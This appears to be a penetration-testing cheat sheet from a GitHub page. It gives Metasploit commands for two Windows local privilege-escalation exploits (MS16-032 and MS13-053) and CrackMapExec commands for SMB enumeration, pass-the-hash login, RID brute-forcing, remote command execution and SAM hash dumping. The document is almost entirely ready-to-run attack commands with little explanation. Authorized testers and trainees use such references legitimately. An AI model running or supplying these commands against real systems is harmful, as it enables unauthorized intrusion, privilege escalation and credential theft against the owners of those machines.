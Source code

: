 ### MS16-032 Secondary Logon Handle Privilege Escalation  Windows 7 32 bit
```bash
msf > use windows/local/ms16_032_secondary_logon_handle_privesc
msf exploit(ms16_032_secondary_logon_handle_privesc) > set session 1
msf exploit(ms16_032_secondary_logon_handle_privesc) > exploit
```
### Windows NTUserMessageCall Win32k Kernel Pool Overflow (Schlamperei)
```bash
msf exploit(ms13_053_schlamperei) >set session 1
msf exploit(ms13_053_schlamperei) >exploit
```

## Crackmapexec V4.0

Enemurate target
```
bash$ cme smb <target> 
```

Access to machine by valid username/password

```
bash$ cme smb <target> -u username -p password
```

Access to machine using the NTLM hash (if u see PWN3D the user hash administrator priveleges )
```
bash$ cme smb <target> -u username -H hash
```
Listing shares

```
bash$ cme smb <target> -u username -p password --shares
```
Enumerate active sessions 
```
bash$ cme smb <target> -u username -p password --sessions
```
Enumerate users by bruteforcing RID's (default: 4000)
```
bash$ cme smb <target> -u username -p password --rid-brute
```

Execute the specified command
```
bash$ cme smb <target> -u username -p password -x 'whoami'
```
Execute the specified PowerShell command

```
bash$ cme smb <target> -u username -p password -X 'whoami'
```
Get Hashes

```
bash$ cme smb <target> -u username -p password --sam
```
